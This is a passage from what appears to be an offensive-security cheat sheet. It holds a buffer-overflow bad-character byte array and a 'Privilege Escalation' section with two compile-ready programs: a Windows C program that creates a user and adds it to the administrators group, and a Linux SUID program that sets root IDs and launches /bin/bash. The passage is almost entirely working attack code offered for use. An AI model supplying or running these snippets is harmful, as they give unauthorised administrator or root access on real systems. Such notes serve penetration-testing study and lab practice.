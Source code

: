 ```
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )
```

Privilege Escalation
--------------------

Scripts
-------

**useradd.c**

Windows - Add user.


#include <stdlib.h> /* system, NULL, EXIT_FAILURE */

int main ()
{
  int i;
  i=system ("net user <username> <password> /add && net localgroup administrators <username> /add");
  return 0;
}

# Compile
i686-w64-mingw32-gcc -o useradd.exe useradd.c
```

**SUID**

Set owner user ID.


int main(void){
  setresuid(0, 0, 0);
  system("/bin/bash");
}

# Compile
gcc suid.c -o suid
```
